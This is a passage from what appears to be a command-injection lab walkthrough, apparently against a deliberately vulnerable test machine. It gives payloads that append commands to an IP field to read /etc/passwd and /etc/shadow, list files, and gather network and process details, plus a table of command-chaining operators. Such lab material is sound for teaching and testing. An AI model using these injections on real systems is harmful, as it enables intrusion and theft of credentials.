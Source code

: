 ### 5. User Account Enumeration

**Display user accounts:**
```bash
127.0.0.1 | cat /etc/passwd
```

**Information obtained:**
* Usernames
* User IDs (UIDs)
* Home directories
* Default shells
* System vs. regular users

**Sample output:**
```
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/sh
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
```

### 6. Additional Reconnaissance Commands

**File system exploration:**
```bash
127.0.0.1 | ls -la /home
127.0.0.1 | cat /etc/shadow 2>&1
127.0.0.1 | find / -name "*.conf" 2>/dev/null
```

**Network information:**
```bash
127.0.0.1 | ifconfig
127.0.0.1 | netstat -an
127.0.0.1 | cat /etc/hosts
```

**Process and service information:**
```bash
127.0.0.1 | ps aux
127.0.0.1 | service --status-all
```

## Command Injection Operators

Different operators can be used to chain commands:

| Operator | Description | Example |
|----------|-------------|---------|
| `;` | Command separator (sequential execution) | `cmd1 ; cmd2` |
| `&` | Background execution | `cmd1 & cmd2` |
| `&&` | AND operator (execute if previous succeeds) | `cmd1 && cmd2` |
| `\|\|` | OR operator (execute if previous fails) | `cmd1 \|\| cmd2` |
| `\|` | Pipe (pass output to next command) | `cmd1 \| cmd2` |
| `` `cmd` `` | Command substitution | `` echo `whoami` `` |
| `$(cmd)` | Command substitution | `echo $(whoami)` |
| `\n` | Newline (in some contexts) | `cmd1%0Acmd2` |
